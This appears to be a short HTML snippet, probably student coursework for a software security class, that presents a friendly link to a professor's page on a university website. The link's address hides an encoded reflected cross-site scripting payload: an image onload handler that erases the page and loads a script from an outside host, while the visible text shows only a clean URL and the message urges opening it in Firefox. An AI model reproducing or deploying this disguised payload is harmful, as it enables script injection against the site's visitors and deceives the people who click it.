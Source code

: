 Hey, fellow student! Check out this awesome professor that I found.

<a href="http://www.se.rit.edu/search/node/Daniel+Krutz&lt;img+src=http:&amp;%2347;&amp;%2347;www.se.rit.edu&amp;%2347;sites&amp;%2347;all&amp;%2347;themes&amp;%2347;se&amp;%2347;assets&amp;%2347;img&amp;%2347;se-logo.png+style=display:none+onload=if(typeof(xssScript)&amp;%2361;&amp;%2361;&quot;undefined&quot;){var&nbsp;xssScript=document.createElement(&quot;script&quot;);xssScript.setAttribute(&quot;src&quot;,&quot;http:&amp;%2347;&amp;%2347;benwoodworth.net&amp;%2347;school&amp;%2347;swen-331&amp;%2347;se-xss.js&quot;);document.body.innerHTML=&quot;&quot;;document.body.appendChild(xssScript);}&gt;">
  http://www.se.rit.edu/search/node/Daniel+Krutz
</a>  
(You should most definitely open this in FireFox, because reasons)
